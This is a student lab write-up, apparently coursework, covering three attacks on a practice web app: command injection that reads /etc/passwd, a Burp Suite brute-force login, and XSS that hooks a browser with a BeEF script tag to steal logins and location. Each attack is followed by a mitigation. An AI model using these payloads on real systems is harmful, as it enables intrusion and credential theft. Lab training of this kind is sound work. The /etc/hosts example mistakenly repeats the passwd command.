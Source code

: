 <h1>Web Application 1: Command Injection.</h1>
Navigate to /etc/passwd and view the file using the command injection file and Dot Dot Slash technique.
The original purpose of the app is to ping IP Addresses. 

![](/HW-15/Images/15-0%20Command%20Injection.png)

For instance, we ping 8.8.8.8.

Command:

        8.8.8.8
![](/hw-15/Images/15-0.5.png)
Command:

        8.8.8.8 && cat ../../../../../etc/passwd
![](/HW-15/Images/15-1%20Command%20Injection.png)

We can use the exact same technique to also use view the /etc/hosts with minimal changes to the syntax of the command

Command:

        8.8.8.8 && cat ../../../../../etc/passwd
![](/HW-15/Images/15-2%20Command%20Injection.png)

Mitigation:
The easiest way to stop command injection on any system is to rigoriously validate the input. Input validation in this context means that you make sure it does not accept anything except IP addresses when pinging a device. Priviliege control would also work. Make sure that the process initiating the command(ping in this case) doesn't have the prvilege to do anything else on the system (like look at the /etc/passwd and hosts files). 

<h1>Web Application 2: Brute Force</h1>

Our application:

![](/HW-15/Images/15-3%20Brute%20Force.png)
We need to break into this application with a brute force attack in Burp Suite. Capturing the packet of a login attempt gives us this:
![](/HW-15/Images/15-4%20Brute%20Force.png)
We then identify the login and password fields in the unencrypted packet.
![](/HW-15/Images/15-5%20Brute%20Force.png)
We have fortunately been given a list of previously leaked user IDs and passwords. We can load this up in our burp suite and use it to launch an attack. Adding these to our payload by copy and paste gives us the following list of possible user IDs:

![](/HW-15/Images/15-6%20Brute%20Force.png)

And we use this other payload for the perspective list of passwords:

![](/HW-15/Images/15-7%20Brute%20Force.png)

Now we are ready to start our attack, which gives us the following results:

![](/HW-15/Images/15-8%20Brute%20Force.png)

We now know that the sucessful login and password for our application is "tonystark" and "I am Iron Man". But we should test the login and password on our app to be sure.
Entering them in our app we get:

![](/HW-15/Images/15-9%20Brute%20Force.png)

Please note the same "Successful login! You really are Iron Man :)" response that our brute force attack returned. Now we can conclude that our brute force attack really did work and we now have access to the web application.

Mitigation: The first thing that needs to be done is limiting the number of times an IP address can attempt to login with the wrong password. The brute force attack used 100 attempts to try to login. Burp Suite wasn't able to find the correct set of creditials until the 65th time. If the application temporarily suspended the attacking IP addresses ability to attempt to log in with the wrong password it would at the very least make the attack take significantly longer. Doing so would also give the security team time to respond to such an alert.

<h1>Web Application 3: Cross Site Scripting(XSS)</h1>
Using the Browser Exploitation Framework (BeEF) to execute cross site scripting exploitation.
![](/HW-15/Images/15-10%20Beef.png)

First we will try to hook the DVWA with our beef malware in it's XSS.

![](/HW-15/Images/15-11%20Beef.png)

The command we want to exploit is:

        <script src="http://127.0.0.1:3000/hook.js"></script>

By placing that into the message of the book we can book this other browser and exploit.

![](/HW-15/Images/15-12%20Beef.png)

This results in new IP address being added to the beef list of vulnerable browers.

![](/HW-15/Images/15-13%20Beef.png)

From here we can use a variety of the exploits available in beef. The first one we used is a generic log in request. Entering our user and password gives them to the Beef Malware. 

![](/HW-15/Images/15-14%20Beef.png)

In this case I supplied the login for the Beef app, beef and feeb.

![](/HW-15/Images/15-15%20Beef.png)

Other exploits include sending a fake update bar, which tells us if the target clicks it.

![](/HW-15/Images/15-16%20Beef.png)

![](/HW-15/Images/15-17%20Beef.png)

Or we can get the target's geolocation data.

![](/HW-15/Images/15-18%20Beef.png)

I of course edited out the PID data.

Mitigation: Cross site scripting can be mitigated with largely the same strategy as mitigating command injection: validating input. The question of mitigating the Man-In-The-Browser attack that Beef in embodies is much more difficult. The best option to defeat Man-In-The-Browser attacks seems to be to ensure that your browser is up to date as much as possible. Otherwise you can train people to notice when their browsers are behaving in a sketchy or suspicious manner. Mitre suggests "restricting user permissions and addressing privilege escalation."
[Source](https://attack.mitre.org/mitigations/T1185/)